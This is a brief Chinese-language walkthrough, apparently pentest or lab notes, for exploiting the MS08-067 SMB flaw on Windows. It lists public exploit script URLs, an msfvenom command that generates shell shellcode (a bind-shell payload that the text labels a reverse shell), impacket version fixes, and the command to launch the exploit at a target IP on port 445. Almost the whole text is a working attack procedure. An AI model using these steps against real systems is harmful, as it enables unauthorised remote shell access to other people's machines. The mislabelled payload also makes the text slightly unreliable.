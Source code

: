 
### 攻击步骤

工具下载：

```bash
https://github.com/andyacer/ms08_067/blob/master/ms08_067_2018.py
https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
```

生成反弹shell：

```bash
msfvenom -p windows/shell_bind_tcp RHOST=<kali> LPORT=9901 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows > reverse_tcp.c
```

解决兼容错误：

```bash
wget https://github.com/SecureAuthCorp/impacket/archive/refs/tags/impacket_0_9_13.tar.gz

pip install --upgrade setuptools
pip uninstall impacket
pip install impacket==0.9.17
```


攻击：

```language
python ./ms08-067.py <IP> 1 445
```
